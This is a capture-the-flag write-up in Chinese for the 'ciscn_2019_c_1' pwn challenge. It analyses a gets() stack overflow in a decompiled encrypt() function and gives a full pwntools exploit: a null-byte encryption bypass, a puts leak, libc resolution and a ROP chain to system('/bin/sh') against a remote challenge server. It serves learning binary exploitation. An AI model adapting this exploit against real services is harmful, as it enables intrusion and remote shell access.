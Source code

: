 # ciscn 2019 c 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_c_1
[*] '/root/ciscn_2019_c_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现明显漏洞，漏洞出现在输入`1`后进入的`encrypt`函数中，该函数如下

```c
int encrypt()
{
    size_t v0;  // rbx
    char s[48]; // [rsp+0h] [rbp-50h]
    __int16 v3; // [rsp+30h] [rbp-20h]
    memset(s, 0, sizeof(s));
    v3 = 0;
    puts("Input your Plaintext to be encrypted");
    gets(s);
    while (1)
    {
        v0 = (unsigned int)x;
        if (v0 >= strlen(s))
            break;
        if (s[x] <= 96 || s[x] > 122)
        {
            if (s[x] <= 64 || s[x] > 90)
            {
                if (s[x] > 47 && s[x] <= 57)
                    s[x] ^= 0xFu;
            }
            else
            {
                s[x] ^= 0xEu;
            }
        }
        else
        {
            s[x] ^= 0xDu;
        }
        ++x;
    }
    puts("Ciphertext");
    return puts(s);
}
```

## 思路分析

1. 目前信息
   - 栈上变量`s`处可写入任意长度数据
   - 本题无后门函数
1. 问题
   - `s`变量处写入的数据将会被后续代码加密导致无法使用
3. 解决思路
   - 加密部分使用了`strlen`函数该函数从字符串的开头位置依次向后计数，直到遇见`\0`，然后返回计时器的值。最终统计的字符串长度不包括`\0`，这里可以构造一个特殊的首位是`\0`的`payload`提前`break`掉，从而绕过加密
   - 因为本题无可用后门函数，所以需要先泄露`libc`的版本和函数地址，接着再通过泄漏出的地址构造`rop`链劫持控制流以获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_c_1/ciscn_2019_c_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28284)
elf = ELF(pwnfile)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x400c83
encrypt_addr = elf.symbols['encrypt']
padding = 0x50+8
io.recvuntil('Input your choice!\n')
io.sendline(str(1))
payload = flat(['\0', 'a'*(padding-1), pop_rdi_ret,puts_got, puts_plt, encrypt_addr])
# 首位\0绕过加密
io.sendlineafter('\n', payload)
leak_puts_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
# 泄漏puts的地址
print("leak puts addr:{0}".format(hex(leak_puts_addr)))
libc = LibcSearcher('puts', leak_puts_addr)
# 泄漏libc版本
libcbase = leak_puts_addr-libc.dump('puts')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
ret = 0x4006b9
payload = flat(['\0', 'a'*(padding-1), ret,pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('encrypted\n', payload)
io.recv()
io.interactive()
```